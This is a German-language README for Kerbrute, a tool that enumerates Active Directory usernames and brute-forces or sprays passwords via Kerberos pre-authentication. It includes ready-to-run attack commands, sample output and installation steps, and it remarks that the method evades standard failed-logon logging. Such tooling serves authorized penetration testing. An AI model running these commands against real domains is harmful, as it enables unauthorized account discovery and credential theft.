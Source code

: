 # Kerbrute

Ein Tool zum schnellen Erzwingen und Aufzählen gültiger Active Directory-Konten durch Kerberos Pre-Authentication.

Das Bruteforcing von Windows-Passwörtern mit Kerberos ist viel schneller als jeder andere mir bekannte Ansatz und potenziell heimlicher, da Fehler bei der Vorauthentifizierung nicht das "traditionelle" Ereignis **4625** (Ein Konto konnte sich nicht anmelden) auslösen. Mit Kerberos können Sie einen Benutzernamen validieren oder eine Anmeldung testen, indem Sie nur einen UDP-Frame an den KDC (Domain Controller) senden. 

## Beispiele für Kerbrute

### User Enumeration 
```
kerbrute_linux_amd64 userenum -d {DOMAIN} --dc {RHOST} /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt  
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:28:04 >  Using KDC(s):
2019/03/06 21:28:04 >   {DOMAIN}:88

2019/03/06 21:28:04 >  [+] VALID USERNAME:       amata@{DOMAIN}
2019/03/06 21:28:04 >  [+] VALID USERNAME:       thoffman@{DOMAIN}
2019/03/06 21:28:04 >  Done! Tested 1001 usernames (2 valid) in 0.425 seconds
```
### Password Spraying
```
kerbrute_linux_amd64 passwordspray -d {DOMAIN} --dc {RHOST} {user.txt} {passwords.txt}
```
### Brute Force
```
kerbrute_linux_amd64 bruteuser -d {DOMAIN} --dc {RHOST} /usr/share/wordlists/rockyou.txt {USER}
```

## Kerbrute Installation
Du kannst das letzte [Release downloaden](https://github.com/BBSynapse/Kerbrute/releases/tag/kerbrute) oder nachfolgend auch direkt mit Go installieren:

```
$ go get github.com/BBSynapse/kerbrute
```
Wenn das Repository geklont ist, können Sie auch die Make-Datei verwenden, um es für die gängigen Architekturen zu kompilieren:

```
$ make help
help:            Show this help.
windows:  Make Windows x86 and x64 Binaries
linux:  Make Linux x86 and x64 Binaries
mac:  Make Darwin (Mac) x86 and x64 Binaries
clean:  Delete any binaries
all:  Make Windows, Linux and Mac x86/x64 Binaries

$ make all
Done.
Building for windows amd64..
Building for windows 386..
Done.
Building for linux amd64...
Building for linux 386...
Done.
Building for mac amd64...
Building for mac 386...
Done.

$ ls dist/
kerbrute_darwin_386        kerbrute_linux_386         kerbrute_windows_386.exe
kerbrute_darwin_amd64      kerbrute_linux_amd64       kerbrute_windows_amd64.exe
```
### Kopieren der Versionen nach **/opt/kerbrute**

```hl:1,2
sudo mkdir /opt/kerbrute
sudo cp <Verzeichnis mit den Kerbrutedateien> /opt/kerbrute
```
### PATH Variable in Kali  ~/.zshrc setzen

```hl:1
export PATH=$PATH:/opt/kerbrute
```

Aktualisieren der PATH-Variablen

```hl:1
source ./.zshrc 
```
